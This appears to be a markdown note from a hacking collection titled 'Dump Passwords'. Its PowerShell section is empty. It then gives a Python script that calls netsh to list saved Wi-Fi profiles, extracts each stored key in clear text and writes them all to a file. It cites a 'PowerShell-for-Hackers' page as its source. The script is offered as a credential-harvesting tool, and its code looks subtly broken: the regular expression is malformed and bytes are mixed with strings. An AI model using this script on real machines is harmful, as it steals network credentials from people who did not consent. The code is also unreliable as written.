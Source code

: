 # Dump Passwords

## PowerShell

```

```

## Python

```python
import subprocess
import re

command = "netsh.exe wlan show profiles"
known_networks = subprocess.check_output(command, shell=True)
network_list = re.findall(b'(?:Profile\s*:\s(.*)', known_networks)

output = ""
for network in network_list:
    credentials = "netsh.exe wlan show profile " + network + " key=clear"
    # output += str(subprocess.check_output(credentials, shell=True))
    output += subprocess.check_output(credentials, shell=True).decode('utf-8')

buffer = open("wifi_credentials.txt", 'w')
buffer.write(output)
buffer.close()
```

---
## References

### Jakoby

- [Jakoby: Wifi-Info](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers/blob/main/Functions/Wifi-Info.md)
